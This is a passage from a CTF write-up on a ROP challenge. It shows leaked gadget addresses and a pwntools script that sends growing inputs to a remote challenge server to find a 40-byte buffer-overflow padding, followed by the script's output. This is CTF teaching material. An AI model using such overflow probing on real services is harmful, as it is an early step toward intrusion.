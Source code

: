```
<<< Address of pop rax, ret    : 0x4013c5
----------------------------------------------------------------------------

>>> aaaaaaa

<<< You say: aaaaaaa
>>> %p

<<< You say: 0x7ffcff0b9870
>>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

<<< You say: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab
```
Next, I tried to figure out the length of the pad. I ended up just doing a while loop with increasingly large sendlines and seeing what size produced a crash.
```
from pwn import *

target = remote('0.cloud.chals.io', 12655)

syscall = 0x4013bb
writeable_area = 0x666000
pop_rax = 0x4013c5


print(target.recvuntil(b'<<< Address of pop rax, ret    : 0x4013c5'))
i = 1
while True:
    
    target.sendline(b'a' * i)
    print(target.recvuntil(b'<<< You say:'))
    print(i)
    i += 1

target.interactive()
```
That size was 40. This seems like it's probably correct; padding in an x86-64 binary is typically divisible by 8, which this is. Once we have a payload that should do something visible, we can test the padding's size out!
```
...
b' aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n>>> \n<<< You say:'
36
b' aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n>>> \n<<< You say:'
37
b' aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n>>> \n<<< You say:'
38
b' aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n>>> \n<<< You say:'
39
b' aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n>>> \n<<< You say:'
40
b' aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa----------------------------------------------------------------------------\n<<< Address of syscall, ret    : 0x4013bb\n<<< Address of writable memory : 0x666000\n<<< Address of pop rax, ret    : 0x4013c5\n----------------------------------------------------------------------------\n\n>>> \n<<< You say:'
41
Traceback (most recent call last):
  File "blackhole_rop_writeup.py", line 15, in <module>
    print(target.recvuntil(b'<<< You say:'))
  File "/home/knittingirl/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
```